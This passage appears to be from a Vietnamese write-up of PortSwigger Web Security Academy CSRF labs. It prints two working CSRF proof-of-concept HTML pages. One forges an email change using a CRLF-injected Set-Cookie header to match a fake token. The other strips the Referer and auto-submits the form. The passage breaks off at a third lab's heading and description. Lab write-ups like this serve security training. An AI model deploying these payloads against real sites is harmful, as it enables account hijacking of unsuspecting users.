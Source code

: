 Truy nhiên chỉ cần csrf đều giống nhau thì hoàn toàn có thể  bypass qua được loại token này.
Dựa vào đó chúng ta có thể tạo ra payload HTML bằng BurpSuite như sau: 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac6e1fc01f3453d98079111f000b004d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="hidden" name="csrf" value="malware_fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="http://ac6e1fc01f3453d98079111f000b004d.web-security-academy.net/?search=halo%0d%0aSet-Cookie:%20csrf=malware_fake" onerror="document.forms[0].submit();"/>
  </body>
</html>
```


Sau đó đưa payload vào exploit server để Store lên website và Deliver to Victim to Solve.



### Lab: CSRF where Referer validation depends on header being present

Bài lab mô tả lỗ hổng là chức năng thay đổi email của phòng thí nghiệm này dễ bị tấn công bởi CSRF. Nó cố gắng chặn các yêu cầu tên miền chéo nhưng có một dự phòng không an toàn.

Để giải quyết phòng thí nghiệm, hãy sử dụng máy chủ khai thác của bạn để lưu trữ một trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head><meta name="referrer" content="no-referrer"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://aca21f281f81e414809ee52500e10054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### Lab: CSRF with broken Referer validation
Bài lab đã mô tả chức năng thay đổi email của phòng thí nghiệm này dễ bị tấn công bởi CSRF. Nó cố gắng phát hiện và chặn các yêu cầu tên miền chéo, nhưng cơ chế phát hiện có thể bị bỏ qua.
